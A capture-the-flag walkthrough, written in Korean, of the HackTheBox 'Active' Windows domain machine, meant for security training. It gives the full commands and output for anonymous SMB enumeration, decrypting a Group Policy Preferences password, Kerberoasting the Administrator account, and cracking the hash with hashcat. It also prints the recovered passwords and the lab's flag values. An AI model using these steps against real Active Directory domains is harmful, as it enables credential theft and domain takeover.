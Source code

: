 # HackTheBox Walkthrough - Active

**Machine Name**: Active  
**Target IP**: 10.129.225.44  
**Operating System**: Windows Server 2008 R2 SP1  
**Difficulty**: Medium  

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -Pn -n --open -p- --max-retries 1 --min-rate 2000 10.129.225.44
nmap -sV -sC -oA nmap/Active 10.129.225.44 -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152-49168
```

**Ports Identified:**
- SMB 관련 포트: 139, 445
- LDAP: 389, 3268
- Kerberos: 88
- 기타 RPC, HTTPAPI 등 포함

---

## 📂 SMB Enumeration

```bash
smbclient -L //10.129.225.44 -N
```

**Shares:**
```
ADMIN$
C$
IPC$
NETLOGON
Replication
SYSVOL
Users
```

✅ **총 7개의 SMB 공유 폴더 존재**  
✅ **익명 읽기 가능한 공유 폴더**: `Replication`

---

## 🔐 GPP Credential Leak

```bash
smbclient //10.129.225.44/Replication -N
cd active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/
get Groups.xml
```

**📄 Groups.xml 내용 요약:**
- 사용자: `SVC_TGS`
- 암호화된 비밀번호(cpassword) 존재

```xml
<User ... userName="active.htb\SVC_TGS" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLf..." />
```

**복호화:**

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLf...'
```

✅ **복호화된 패스워드**: `GPPstillStandingStrong2k18`

---

## 🔑 사용자 플래그 획득

```bash
smbclient -U 'ACTIVE\SVC_TGS' //10.129.225.44/Users
cd SVC_TGS/Desktop/
get user.txt
```

📄 **User Flag**:
```
2b1315e704553f8423562cb29ed99ea1
```

---

## 🦀 Kerberoasting

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.225.44
```

- vulnerable service account: `Administrator`
- SPN: `active/CIFS:445`

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.225.44 -request > hash.txt
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt --force
```

✅ **Cracked Password**: `Ticketmaster1968`

---

## 🧠 Root 플래그 획득

```bash
smbclient -U 'ACTIVE\Administrator' //10.129.225.44/Users
cd Administrator/Desktop/
get root.txt
```

📄 **Root Flag**:
```
1fdde5163e1c0ee88a54fa5facb901a1
```

---

✅ **공격 요약**
- GPP(Grouppolicy Preferences) XML에서 SVC_TGS 계정 비밀번호 추출
- Kerberoasting을 통한 Administrator 티켓 덤프 및 크래킹
- SMB를 통해 플래그 획득
